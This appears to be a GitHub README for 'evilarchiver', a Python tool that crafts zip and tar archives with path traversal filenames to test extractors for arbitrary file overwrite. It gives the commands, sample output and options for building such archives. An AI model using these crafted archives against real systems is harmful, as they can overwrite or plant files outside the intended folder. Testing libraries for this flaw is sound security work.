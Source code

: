 # evilarchiver
Modded version of tarfile.py for testing arbitrary file (over)write via path traversal in Tar archives.

This script is useful for quickly craft a tar archive with a file with dot-dot pattern as a filename and verify if the target library is vulnerable to arbitrary file overwrite via path traversal filenames.

This tool is almost the same of https://github.com/ptoomey3/evilarc. It depends upon zipfile and tarfile Python libraries.

Example:

<code>$ mkdir safedir </code>
  
<code>$ touch safedir/safefile security_test.txt </code>

<code>$ python2 evilarchiver.py -e security_test.txt -n ../../../../../../tmp/evil -s safedir/safefile </code>

Output:

<pre>creating archive zip
creating archive tar
creating archive tar.gz
creating archive tar.bz2

Contents of evil.zip:
['../../../../../../tmp/evil', 'safedir/safefile']

Contents of evil.tar:
['../../../../../../tmp/evil', 'safedir/safefile']

Contents of evil.tar.gz:
['../../../../../../tmp/evil', 'safedir/safefile']

Contents of evil.tar.bz2:
['../../../../../../tmp/evil', 'safedir/safefile']</pre>


<pre>Options: 

-n: filename crafted with dot-dot patterns
-e: malicious file which content we want to associate to the dot-dot filename
-s: safe or benign file and filename
</pre>

